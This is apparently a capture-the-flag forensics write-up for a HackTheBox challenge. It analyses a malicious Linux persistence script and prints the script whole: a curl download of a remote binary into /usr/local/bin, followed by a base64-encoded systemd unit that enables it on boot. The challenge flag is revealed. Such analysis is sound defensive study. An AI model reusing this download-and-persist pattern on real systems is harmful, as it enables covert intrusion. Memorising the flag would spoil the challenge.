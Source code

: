 # Extraterrestrial-Persistence

## FLAG: HTB{th3s3_4l13nS_4r3_s00000_b4s1c}

## Status: Complete

+ DOCKER: No
+ DOWNLOADABLE: Yes

Description: There is a rumor that aliens have developed a persistence mechanism that is impossible to detect. After investigating her recently compromised Linux server, Pandora found a possible sample of this mechanism. Can you analyze it and find out how they install their persistence?

## NOTES

1. Extract the files
   1. > unzip forensics_extraterrestrial_persistence.zip
      1. FILE: persistence.sh
2. Examine the file
   1. > file persistence.sh
      1. RESPONSE: `persistence.sh: ASCII text, with very long lines (396), with CRLF line terminators`
   2. > cat persistence.sh
      1. RESPONSE:

        ```bash
            n=`whoami`
            h=`hostname`
            path='/usr/local/bin/service'
            if [[ "$n" != "pandora" && "$h" != "linux_HQ" ]]; then exit; fi

            curl https://files.pypi-install.com/packeges/service -o $path

            chmod +x $path

            echo -e "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA=="|base64 --decode > /usr/lib/systemd/system/service.service

            systemctl enable service.service
        ```

   3. In here see what looks like a base64 encoded string
   4. Lets try and decode this
      1. > echo "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA==" | base64 -d
         1. RESPONSE:

            ```text
                [Unit]
                Description=HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
                After=network.target network-online.target

                [Service]
                Type=oneshot
                RemainAfterExit=yes

                ExecStart=/usr/local/bin/service
                ExecStop=/usr/local/bin/service

                [Install]
                WantedBy=multi-user.target%
            ```

      2. In here we see the description which has our flag
           1. FLAG: `HTB{th3s3_4l13nS_4r3_s00000_b4s1c}`
